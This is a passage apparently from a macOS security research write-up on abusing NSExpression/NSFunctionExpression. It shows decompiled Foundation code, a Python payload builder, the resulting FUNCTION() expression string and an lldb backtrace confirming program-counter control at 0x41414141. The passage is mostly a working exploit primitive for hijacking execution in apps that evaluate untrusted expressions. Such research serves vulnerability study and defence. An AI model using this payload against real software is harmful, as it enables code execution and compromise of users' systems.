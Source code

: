 ```objc
NSInvocationOperation *__cdecl -[NSInvocationOperation initWithTarget:selector:object:](NSInvocationOperation *self, SEL a2, id a3, SEL a4, id a5)
{
  v19 = a5;
  v9 = objc_msgSend_0(a3, sel_methodSignatureForSelector_, a4);
  v10 = v9;
  v11 = (unsigned __int64)objc_msgSend_0(v9, sel_numberOfArguments);
  v12 = v11;
  v13 = +[NSInvocation invocationWithMethodSignature:](
          &OBJC_CLASS___NSInvocation,
          sel_invocationWithMethodSignature_,
          v10);
  -[NSInvocation setTarget:](v13, sel_setTarget_, a3);
  -[NSInvocation setSelector:](v13, sel_setSelector_, a4);
  if ( v12 >= 3 )
    -[NSInvocation setArgument:atIndex:](v13, sel_setArgument_atIndex_, &v19, 2LL);
  return (NSInvocationOperation *)-[NSInvocationOperation initWithInvocation:](self, sel_initWithInvocation_, v13);
}
```

So the payload for PC-control looks like this:

```python
def selector(name):
    expr = Call(Clazz('NSFunctionExpression'), 'alloc')
    expr = Call(expr, 'initWithTarget:selectorName:arguments:', '', name, [])
    return Call(expr, 'selector')

def pc_control(pc=0x41414141):
    NSString = Clazz('NSString')
    op = Call(Clazz('NSInvocationOperation'), 'alloc')
    op = Call(op, 'initWithTarget:selector:object:',
    NSString, selector('alloc'), [])
    invocation = Call(op, 'invocation')
    imp = Call(pc, 'intValue')
    return Call(invocation, 'invokeUsingIMP:', imp)
```

```js
FUNCTION(FUNCTION(FUNCTION(FUNCTION(CAST('NSInvocationOperation','Class'),'alloc'),'initWithTarget:selector:object:',CAST('NSString','Class'),FUNCTION(FUNCTION(FUNCTION(CAST('NSFunctionExpression','Class'),'alloc'),'initWithTarget:selectorName:arguments:','','alloc',{}),'selector'),{}),'invocation'),'invokeUsingIMP:',FUNCTION(0x41414141,'intValue'))
```

```
(lldb) bt
* thread #1, queue = 'com.apple.main-thread', stop reason = EXC_BAD_ACCESS (code=1, address=0x41414141)
    frame #0: 0x0000000041414141
    frame #1: 0x00007fff2042556c CoreFoundation`__invoking___ + 140
    frame #2: 0x00007fff204cff1e CoreFoundation`-[NSInvocation invokeUsingIMP:] + 225
    frame #3: 0x00007fff211d676b Foundation`-[NSFunctionExpression expressionValueWithObject:context:] + 721
```
